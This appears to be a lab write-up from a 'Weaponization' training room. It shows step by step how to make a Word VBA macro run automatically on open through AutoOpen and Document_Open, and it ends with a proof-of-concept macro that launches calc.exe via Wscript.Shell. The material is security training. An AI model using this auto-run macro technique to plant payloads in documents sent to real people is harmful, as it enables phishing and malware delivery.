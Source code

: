 ```
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```
Finally, run the macro by `F5` or `Run` → `Run Sub/UserForm`.

Now in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as `AutoOpen` and `Document_open`. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the `THM` function.

```
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```
It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as `.doc and docm`. Now let's save the file as `Word 97-2003 Template` where the Macro is enabled by going to `File → save Document1` and save as `type → Word 97-2003 Document` and finally, `save`.

### 5.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been `disabled` and give us the option to enable it. Let's enable it and move forward to check out the result.

### 6.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Once we allowed the `Enable Content`, our macro gets executed as shown,

### 7.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

### Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,

```
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```
To explain the code in detail, with `Dim payload As String`, we declare payload variable as a string using Dim keyword. With `payload = "calc.exe"` we are specifying the payload name and finally with `CreateObject("Wscript.Shell")`.Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  `AutoOpen()` and `Document_open()` functions too.
